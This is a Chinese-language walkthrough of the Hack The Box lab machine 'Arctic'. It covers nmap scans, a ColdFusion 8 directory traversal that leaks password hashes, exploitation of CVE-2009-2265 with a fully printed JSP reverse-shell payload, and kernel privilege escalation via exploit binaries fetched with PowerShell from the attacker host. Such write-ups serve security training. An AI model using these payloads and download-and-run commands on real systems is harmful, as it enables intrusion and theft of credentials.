# 信息搜集

## Nmap

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.11 -oA scans/ports
···
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown
···
root@kali# nmap -sT -sC -sV -O -p135,8500,49154 10.10.10.11 -oA scans/details
···
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012:r2
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows Server 2008 (90%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
···
root@kali# nmap -sU -open --top-ports 20 10.10.10.11 -oA nmapscan/udp
···
PORT      STATE         SERVICE
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   open|filtered ntp
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open|filtered snmp
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown
···
```

nmap发现三个打开的 TCP 端口，RPC（135、49154）和 （8500）：

## Web访问

尝试`curl http://10.10.10.11:8500`

```
$ curl http://10.10.10.11:8500             
  <html>
  <head>
  <title>Index of /</title></head><body bgcolor="#ffffff">
  <h1>Index of /</h1><br><hr><pre><a href="CFIDE/">CFIDE/</a>               <i>dir</i>   03/22/17 08:52 μμ
  <a href="cfdocs/">cfdocs/</a>              <i>dir</i>   03/22/17 08:55 μμ
  </pre><hr></html> 
```

这里的 8500 是一个 HTTP 服务，打开后需要等待约 10-20 秒的时间来加载。这台靶机的翻译叫做北极，我想原因就是因为太慢了吧。



从`10.10.10.11:8500/CFIDE/administrator/`获取到`ADOBE COLDFUSION 8`的登录页面：





# 漏洞利用

## 目录遍历漏洞

本地查找漏洞利用,可知存在目录遍历漏洞：



下载利用脚本：



脚本利用：


```
$ python2 14641.py 10.10.10.11 8500 ../../../../../../../lib/password.properties
  ------------------------------
  trying /CFIDE/wizards/common/_logintowizard.cfm
  title from server in /CFIDE/wizards/common/_logintowizard.cfm:
  ------------------------------
  #Wed Mar 22 20:53:51 EET 2017
  rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
  password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
  encrypted=true
  ------------------------------
  ------------------------------
  trying /CFIDE/administrator/archives/index.cfm
  title from server in /CFIDE/administrator/archives/index.cfm:
  ------------------------------
  #Wed Mar 22 20:53:51 EET 2017
  rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
  password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
  encrypted=true
  ------------------------------
  ------------------------------
  trying /cfide/install.cfm
  title from server in /cfide/install.cfm:
  ------------------------------
  #Wed Mar 22 20:53:51 EET 2017
  rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
  password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
  encrypted=true
  ------------------------------
  ------------------------------
  trying /CFIDE/administrator/entman/index.cfm
  title from server in /CFIDE/administrator/entman/index.cfm:
  ------------------------------
  #Wed Mar 22 20:53:51 EET 2017
  rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
  password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
  encrypted=true
  ------------------------------
  ------------------------------
  trying /CFIDE/administrator/enter.cfm
  title from server in /CFIDE/administrator/enter.cfm:
  ------------------------------
  #Wed Mar 22 20:53:51 EET 2017
  rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
  password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
  encrypted=true
  ------------------------------
```


登录成功：



## SearchSploit

```
root@kali# searchsploit ColdFusion 8    
  ···
  Adobe ColdFusion 8 - Remote Command Execution | cfm/webapps/50057.py
  ···
```

Adobe ColdFusion 8 - Remote Command Execution 存在RCE漏洞

## Msfconsole

```
root@kali# searchsploit -m 50057.py
  Exploit: Adobe ColdFusion 8 - Remote Command Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50057
      Path: /usr/share/exploitdb/exploits/cfm/webapps/50057.py
      Codes: CVE-2009-2265
  Verified: False
  File Type: Python script, ASCII text executable
  Copied to: /home/kali/桌面/50057.py
```



```
root@kali# python3 50057.py   

  Generating a payload...
  Payload size: 1496 bytes
  Saved as: 58e52c02f7694b0cb122969bd690000a.jsp

  Priting request...
  Content-type: multipart/form-data; boundary=c06c5ed533b244a3a3d9ba04c5f5911c
  Content-length: 1697

  --c06c5ed533b244a3a3d9ba04c5f5911c
  Content-Disposition: form-data; name="newfile"; filename="58e52c02f7694b0cb122969bd690000a.txt"
  Content-Type: text/plain

  <%@page import="java.lang.*"%>
  <%@page import="java.util.*"%>
  <%@page import="java.io.*"%>
  <%@page import="java.net.*"%>

  <%
  class StreamConnector extends Thread
  {
      InputStream uq;
      OutputStream qh;

      StreamConnector( InputStream uq, OutputStream qh )
      {
      this.uq = uq;
      this.qh = qh;
      }

      public void run()
      {
      BufferedReader c2  = null;
      BufferedWriter yeh = null;
      try
      {
          c2  = new BufferedReader( new InputStreamReader( this.uq ) );
          yeh = new BufferedWriter( new OutputStreamWriter( this.qh ) );
          char buffer[] = new char[8192];
          int length;
          while( ( length = c2.read( buffer, 0, buffer.length ) ) > 0 )
          {
          yeh.write( buffer, 0, length );
          yeh.flush();
          }
      } catch( Exception e ){}
      try
      {
          if( c2 != null )
          c2.close();
          if( yeh != null )
          yeh.close();
      } catch( Exception e ){}
      }
  }

  try
  {
      String ShellPath;
  if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
  ShellPath = new String("/bin/sh");
  } else {
  ShellPath = new String("cmd.exe");
  }

      Socket socket = new Socket( "10.10.16.8", 4444 );
      Process process = Runtime.getRuntime().exec( ShellPath );
      ( new StreamConnector( process.getInputStream(), socket.getOutputStream() ) ).start();
      ( new StreamConnector( socket.getInputStream(), process.getOutputStream() ) ).start();
  } catch( Exception e ) {}
  %>

  --c06c5ed533b244a3a3d9ba04c5f5911c--


  Sending request and printing response...


          <script type="text/javascript">
              window.parent.OnUploadCompleted( 0, "/userfiles/file/58e52c02f7694b0cb122969bd690000a.jsp/58e52c02f7694b0cb122969bd690000a.txt", "58e52c02f7694b0cb122969bd690000a.txt", "0" );
          </script>
        

  Printing some information for debugging...
  lhost: 10.10.16.8
  lport: 4444
  rhost: 10.10.10.11
  rport: 8500
  payload: 58e52c02f7694b0cb122969bd690000a.jsp

  Deleting the payload...

  Listening for connection...

  Executing the payload...
  listening on [any] 4444 ...
  connect to [10.10.16.8] from (UNKNOWN) [10.10.10.11] 54620
  Microsoft Windows [Version 6.1.7600]

  Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

  C:\ColdFusion8\runtime\bin>whoami
  whoami
  arctic\tolis
  C:\ColdFusion8\runtime\bin>cd /
  cd /
  ···
  C:\Users\tolis>cd desktop
  cd desktop

  C:\Users\tolis\Desktop>dir
  dir
  Volume in drive C has no label.
  Volume Serial Number is 5C03-76A8

  Directory of C:\Users\tolis\Desktop

  22/03/2017  09:00 ��    <DIR>          .
  22/03/2017  09:00 ��    <DIR>          ..
  27/02/2024  12:45 ��                34 user.txt
              1 File(s)             34 bytes
              2 Dir(s)   1.433.661.440 bytes free
```

# 提权



- 这是一个没有应用补丁的`Windows 2008 R2`服务器
- 可能存在内核漏洞攻击，使用`sysinfo`结果运行`Windows Exploit Suggester`
- 复制脚本内容到`windows-exploit-suggester.py`
- 安装`Python xlrd`库

查看可利用的漏洞:

`windows-exploit-suggester.py`:https://github.com/AonCyberLabs/Windows-Exploit-Suggester

```
# 数据库升级
root@kali#  python2 windows-exploit-suggester.py --update 
[*] initiating winsploit version 3.3...
[+] writing to file 2024-04-25-mssb.xls
[*] done

# 将systeminfo结果复制到本地文件systeminfo.txt中
root@kali#  vim systeminfo.txt

# 查看可利用的漏洞，这里报错了，因为缺少xlrd库
root@kali# python2 windows-exploit-suggester.py --database 2024-04-25-mssb.xls --systeminfo systeminfo.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[-] please install and upgrade the python-xlrd library

# 安装xlrd库，这里指定1.2.0版本，高版本会报错
root@kali# python2 -m pip install xlrd==1.2.0
……下载略……
Successfully installed xlrd-1.2.0

# 查看可利用的漏洞
root@kali#  python2 windows-exploit-suggester.py --database 2024-04-25-mssb.xls --systeminfo systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

E]表示exploited poc，可以直接用searchsploit获取POC：



这边有已经编译好的，就不用在编译了。kali 本地开启http服务，监听


Windows下载提权程序，

```
powershell (new-object System.Net.WebClient).DownloadFile('http://10.10.14.26/ms11011.exe','ms11011.exe') 
```



执行，提权失败

```
C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>ms11011.exe
ms11011.exe

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

换个漏洞，这次试试MS10-059

```
powershell (new-object System.Net.WebClient).DownloadFile('http://10.10.14.26/MS10-059/MS10-059.exe','MS10-059.exe') 
```

尝试执行：

```
C:\ColdFusion8\wwwroot\userfiles\file>MS10-059.exe
MS10-059.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR>
```

nc 再监听一个端口 8888，再执行这个EXP

```
C:\ColdFusion8\wwwroot\userfiles\file>MS10-059.exe 10.10.14.26 8888
MS10-059.exe 10.10.14.26 8888
```

成功收到反弹shell



# 总结

1. COLDFUSION目录遍历漏洞利用
2. COLDFUSIONRCE漏洞利用
3. 内核漏洞利用提权